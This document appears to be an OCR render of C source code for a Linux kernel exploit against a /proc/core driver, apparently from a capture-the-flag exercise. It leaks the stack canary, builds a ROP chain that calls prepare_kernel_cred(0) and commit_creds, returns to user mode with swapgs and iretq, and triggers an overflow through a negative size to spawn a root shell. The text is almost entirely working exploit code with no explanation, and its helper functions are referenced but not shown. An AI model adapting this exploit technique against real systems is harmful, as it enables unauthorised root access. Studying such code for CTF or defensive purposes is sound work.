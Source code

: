 ```C

void core_copy_func(int fd, long long size)
{
	printf("[*]copy from user with size: %ld\n", size);
	ioctl(fd, 0x6677889A, size);
}

int main()
{
	save_status();
	int fd = open("/proc/core", 2);
	if(fd < 0)
	{
		puts("[*]open /proc/core error!");
		exit(0);
	}
	
	find_symbols();
	// gadget = raw_gadget - raw_vmlinux_base + vmlinux_base;
	ssize_t offset = vmlinux_base - raw_vmlinux_base;

	set_off(fd, 0x40);

	char buf[0x40] = {0};
	core_read(fd, buf);
	size_t canary = ((size_t *)buf)[0];
	printf("[+]canary: %p\n", canary);

	size_t rop[0x1000] = {0};

	int i;
	for(i = 0; i < 10; i++)
	{
		rop[i] = canary;
	}
	rop[i++] = 0xffffffff81000b2f + offset; // pop rdi; ret
	rop[i++] = 0;
	rop[i++] = prepare_kernel_cred;			// prepare_kernel_cred(0)

	rop[i++] = 0xffffffff810a0f49 + offset; // pop rdx; ret
	rop[i++] = 0xffffffff81021e53 + offset; // pop rcx; ret
	rop[i++] = 0xffffffff8101aa6a + offset; // mov rdi, rax; call rdx; 
	rop[i++] = commit_creds;
	
	rop[i++] = 0xffffffff81a012da + offset; // swapgs; popfq; ret
	rop[i++] = 0;

	rop[i++] = 0xffffffff81050ac2 + offset; // iretq; ret; 

	rop[i++] = (size_t)spawn_shell;			// rip 
	
	rop[i++] = user_cs;
	rop[i++] = user_rflags;
	rop[i++] = user_sp;
	rop[i++] = user_ss;

	write(fd, rop, 0x800);
	core_copy_func(fd, 0xffffffffffff0000 | (0x100));

	return 0;
}
```
